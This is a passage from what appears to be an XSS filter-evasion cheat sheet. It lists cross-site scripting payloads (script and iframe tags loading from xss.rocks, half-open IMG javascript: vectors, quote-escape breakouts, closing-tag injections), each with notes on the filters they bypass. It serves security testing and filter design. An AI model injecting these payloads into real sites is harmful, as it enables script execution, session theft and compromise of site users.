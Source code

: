 ```html
<SCRIPT SRC=//xss.rocks/.j>
```

## Half Open HTML/JavaScript XSS Vector

Unlike Firefox the IE rendering engine doesn't add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close "\>" tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn't require the end "\>". As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:

```html
<IMG SRC="`<javascript:alert>`('XSS')"`
```

## Double Open Angle Brackets

Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won't:

```html
<iframe src=http://xss.rocks/scriptlet.html <`
```

## Escaping JavaScript Escapes

When the application is written to output some user information inside of a JavaScript like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>` and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:

```html
`\";alert('XSS');//`
```

An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

```html
</script><script>alert('XSS');</script>
```

## End Title Tag

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

```html
</TITLE><SCRIPT>alert("XSS");</SCRIPT>
```

## INPUT Image

```html
<input type="IMAGE" src="javascript:alert('XSS');" />
```
